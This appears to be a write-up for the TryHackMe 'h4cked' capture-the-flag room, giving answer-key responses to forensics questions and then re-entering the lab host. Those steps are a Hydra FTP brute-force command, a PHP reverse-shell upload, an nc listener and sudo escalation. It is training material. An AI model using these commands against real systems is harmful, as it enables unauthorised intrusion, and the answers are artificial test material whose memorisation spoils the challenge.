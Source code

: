 # [Challenge](https://tryhackme.com/room/h4cked)
# Oh no! We've been hacked!
## 1. The attacker is trying to log into a specific service. What service is this?
Answer: FTP
## 2. There is a very popular tool by Van Hauser which can be used to brute force a series of services. What is the name of this tool?
Answer: Hydra
## 3. The attacker is trying to log on with a specific username. What is the username?
Answer: jenny
## 4. What is the user's password?
Answer: password123 (P.S.: follow the tcp stream)
## 5. What is the current FTP working directory after the attacker logged in?
Answer: /var/www/html
## 6. The attacker uploaded a backdoor. What is the backdoor's filename?
Anwer: shell.php
## 7. The backdoor can be downloaded from a specific URL, as it is located inside the uploaded file. What is the full URL?
Answer: http://pentestmonkey.net/tools/php-reverse-shell (P.S.: FTP-DATA)
## 8. Which command did the attacker manually execute after getting a reverse shell?
Answer: whoami
## 9. What is the computer's hostname?
Answer: wir3
## 10. Which command did the attacker execute to spawn a new TTY shell?
Answer: python3 -c 'import pty; pty.spawn("/bin/bash")'
## 11. Which command was executed to gain a root shell?
Answer: sudo su
## 12. The attacker downloaded something from GitHub. What is the name of the GitHub project?
Answer: Reptile
## 13. The project can be used to install a stealthy backdoor on the system. It can be very hard to detect. What is this type of backdoor called?
Answer: Rootkit
# Hack your way back into the machine
## 1. Run Hydra (or any similar tool) on the FTP service. The attacker might not have chosen a complex password. You might get lucky if you use a common word list.
`hydra -l jenny -P /usr/share/wordlists/rockyou.txt h4cked.thm ftp -t 60 -V`
`[21][ftp] host: h4cked.thm   login: jenny   password: 987654321`
## 2. Change the necessary values inside the web shell and upload it to the webserver & 3. Create a listener on the designated port on your attacker machine. Execute the web shell by visiting the .php file on the targeted web server.
`put shell.php`
`nc -lvnp 4444`
http://h4cked.thm/shell.php
## 4. Become root!
`su jenny`
`sudo su`
# P.S.: I found another way to gain root (faster)
SSH password for jenny user is the same (`987654321`), so the reverse shell thing isn't necessary.
